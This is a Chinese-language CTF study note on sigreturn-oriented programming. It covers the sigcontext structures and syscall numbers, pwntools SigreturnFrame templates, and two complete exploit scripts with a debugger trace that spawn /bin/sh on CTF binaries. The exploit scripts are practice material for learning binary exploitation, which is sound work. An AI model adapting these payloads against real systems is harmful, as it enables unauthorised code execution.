

# SROP-signal

‍



‍

‍

‍

## 结构体 sigcontext

‍

- x86

```c
struct sigcontext
{
  unsigned short gs, __gsh;
  unsigned short fs, __fsh;
  unsigned short es, __esh;
  unsigned short ds, __dsh;
  unsigned long edi;
  unsigned long esi;
  unsigned long ebp;
  unsigned long esp;
  unsigned long ebx;
  unsigned long edx;
  unsigned long ecx;
  unsigned long eax;
  unsigned long trapno;
  unsigned long err;
  unsigned long eip;
  unsigned short cs, __csh;
  unsigned long eflags;
  unsigned long esp_at_signal;
  unsigned short ss, __ssh;
  struct _fpstate * fpstate;
  unsigned long oldmask;
  unsigned long cr2;
};
```

‍

- x64

‍

```c
struct _fpstate
{
  /* FPU environment matching the 64-bit FXSAVE layout.  */
  __uint16_t        cwd;
  __uint16_t        swd;
  __uint16_t        ftw;
  __uint16_t        fop;
  __uint64_t        rip;
  __uint64_t        rdp;
  __uint32_t        mxcsr;
  __uint32_t        mxcr_mask;
  struct _fpxreg    _st[8];
  struct _xmmreg    _xmm[16];
  __uint32_t        padding[24];
};

struct sigcontext
{
  __uint64_t r8;
  __uint64_t r9;
  __uint64_t r10;
  __uint64_t r11;
  __uint64_t r12;
  __uint64_t r13;
  __uint64_t r14;
  __uint64_t r15;
  __uint64_t rdi;
  __uint64_t rsi;
  __uint64_t rbp;
  __uint64_t rbx;
  __uint64_t rdx;
  __uint64_t rax;
  __uint64_t rcx;
  __uint64_t rsp;
  __uint64_t rip;
  __uint64_t eflags;
  unsigned short cs;
  unsigned short gs;
  unsigned short fs;
  unsigned short __pad0;
  __uint64_t err;
  __uint64_t trapno;
  __uint64_t oldmask;
  __uint64_t cr2;
  __extension__ union
    {
      struct _fpstate * fpstate;
      __uint64_t __fpstate_word;
    };
  __uint64_t __reserved1 [8];
};
```

‍

## 系统调用号

32 位的 sigreturn 的调用号为 119(0x77)

‍

```python
mov eax, 0x77
```

‍

64 位的系统调用号为 15(0xf)

‍

```python
mov eax, 0x0f
```

‍

## 利用（非常简单）

- 直接照着模板打

```python
from pwn imprt *

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
```

```python
frame = SigreturnFrame(kernel='i386')
frame.eax = constants.SYS_write
frame.ebx = constants.STDOUT_FILENO
frame.ecx = binary.symbols['message']
frame.edx = len(message)
frame.esp = 0xdeadbeef
frame.eip = binary.symbols['syscall']
```

‍

‍

‍

- 一些系统调号

```python
sigframe.rax = constants.SYS_mprotect
sigframe.rax = constants.SYS_read
sigframe.rax = constants.SYS_write
```

‍

具体可以参考 Linux_SYS_CALL

‍

‍

- 可以参考

‍

## 几个简单的题目EXP

‍

```python
from pwn import *


s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)

binary = './ciscn_s_3'
libc   = ''

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']

io = process(binary)
#*RAX  0x30
# RBX  0x0
#*RCX  0x400519 (vuln+44) ◂— ret 
# RDX  0x30
# RDI  0x1
# RSI  0x7fffffffde50 ◂— 0xa333231 /* '123\n' */
# R8   0x7ffff7e1af10 ◂— 0x4
# R9   0x7ffff7fc9040 ◂— endbr64 
# R10  0x7ffff7fc3908 ◂— 0xd00120000000e
# R11  0x346
# R12  0x7fffffffdf98 —▸ 0x7fffffffe313 ◂— '/mnt/hgfs/Downloads/buu/ciscn_s_3'
# R13  0x40051d (main) ◂— push rbp
# R14  0x0
# R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 ◂— 0x0
# RBP  0x7fffffffde60 —▸ 0x7fffffffde80 ◂— 0x1
# RSP  0x7fffffffde60 —▸ 0x7fffffffde80 ◂— 0x1
#*RIP  0x400519 (vuln+44) ◂— ret
#gdb.attach(io,'b *0x040050A')

srop = 0x04004DA
sys = 0x0400517

pay = b'\x00' * 0x10
pay += p64(srop)
pay += p64(sys)

#             Start                End Perm     Size Offset File
#          0x400000           0x401000 r-xp     1000      0 /mnt/hgfs/Downloads/buu/ciscn_s_3
#          0x600000           0x601000 r--p     1000      0 /mnt/hgfs/Downloads/buu/ciscn_s_3
#          0x601000           0x602000 rw-p     1000   1000 /mnt/hgfs/Downloads/buu/ciscn_s_3

bss = 0x601800

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = bss # bss
sigframe.rdx = 0x300
sigframe.rsp = bss
sigframe.rip = sys
pay += bytes(sigframe)
sl(pay)


io.interactive()
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = bss + 296
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = bss
sigframe.rip = sys
pay = p64(srop)
pay += p64(sys)
pay += bytes(sigframe)
pay += b'////////////////////////////////////bin/sh\x00'
sl(pay)
io.interactive()

```

‍

```python
from pwn import *


s       = lambda data               :io.send(data)
sa      = lambda delim,data         :io.sendafter(str(delim), data)
sl      = lambda data               :io.sendline(data)
sla     = lambda delim,data         :io.sendlineafter(str(delim), data)
r       = lambda num                :io.recv(num)
ru      = lambda delims, drop=True  :io.recvuntil(delims, drop)
itr     = lambda                    :io.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
ls      = lambda data               :log.success(data)

binary = '../rootersctf_2019_srop'
libc   = ''

context.arch      = 'amd64'
context.log_level = 'debug'
context.terminal  = ['tmux','splitw','-h','-l','130']

def x86_shellcode():
    # eax 0xb
    # ebx /bin/sh
    # ecx 0
    # edx 0

    # sh
    # push 0x006873
    shellcode = '''
    xor ecx,ecx
    xor edx,edx
    push 0xb
    pop eax
    push 0x0068732f
    push 0x6e69622f
    mov ebx,esp
    int 0x80
    '''
    shellcode = asm(shellcode)
    print('shellcode Length:',len(shellcode))
    print(disasm(shellcode))
    return shellcode


#io = process(binary)
#io = remote('node4.buuoj.cn', 28347)
io = gdb.debug(binary,'b *0x401032')

bss = 0x402800
sys = 0x401033

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = bss # bss
sigframe.rdx = 0x400
sigframe.rsp = bss# + 0x218
sigframe.rbp = bss# + 0x10
sigframe.rip = sys


ru('for the CTF?\n')
pay = 0x88 * b'A'
pay += p64(0x401032)
pay += p64(0x0f)
pay += bytes(sigframe)

sl(pay)
srop = 0x0401032

io.interactive()

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = bss + 296
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rbp = bss
sigframe.rsp = bss
sigframe.rip = sys
pay = p64(srop) * 2
pay += p64(0x0f)
pay += bytes(sigframe)
pay += b'////////////////////////////bin/sh\x00'
#pay += b'B' * 0x100
sl(pay)
io.interactive()


```

‍

- execve("/bin/sh",0,0)

‍

```python
 ► 0x401033    syscall  <SYS_rt_sigreturn>
        rdi: 0x0
        rsi: 0x402800 —▸ 0x401032 ◂— pop rax
        rdx: 0x400
        r10: 0x0
   0x401035    leave  
   0x401036    ret  
    ↓
   0x401032    pop    rax
   0x401033   syscall  <SYS_rt_sigreturn>
        rdi: 0x0
        rsi: 0x402800 —▸ 0x401032 ◂— pop rax
        rdx: 0x400
        r10: 0x0
   0x401035    leave  
   0x401036    ret  
 
   0x401037    call   0x401000                      <0x401000>
 
   0x40103c    mov    eax, 0x3c
   0x401041    mov    edi, 0
────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────
00:0000│ rsp 0x402818 ◂— 0x0
... ↓        7 skipped
──────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────
 ► f 0         0x401033
   f 1              0x0
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> stack 60
00:0000│ rsp 0x402818 ◂— 0x0
... ↓        12 skipped
0d:0068│     0x402880 —▸ 0x402928 ◂— '////bin/sh'	# rdi
0e:0070│     0x402888 ◂— 0x0
0f:0078│     0x402890 —▸ 0x402800 —▸ 0x401032 ◂— pop rax
10:0080│     0x402898 ◂— 0x0
11:0088│     0x4028a0 ◂— 0x0
12:0090│     0x4028a8 ◂— 0x3b /* ';' */			# rax
13:0098│     0x4028b0 ◂— 0x0
14:00a0│     0x4028b8 —▸ 0x402800 —▸ 0x401032 ◂— pop rax
15:00a8│     0x4028c0 —▸ 0x401033 ◂— syscall		# rip
16:00b0│     0x4028c8 ◂— 0x0
17:00b8│     0x4028d0 ◂— 0x33 /* '3' */
18:00c0│     0x4028d8 ◂— 0x0
... ↓        6 skipped
1f:00f8│     0x402910 ◂— '////////////////////////////bin/sh'
... ↓        2 skipped
22:0110│     0x402928 ◂— '////bin/sh'
23:0118│     0x402930 ◂— 0xa006873 /* 'sh' */
24:0120│     0x402938 ◂— 0x0
... ↓        23 skipped
```
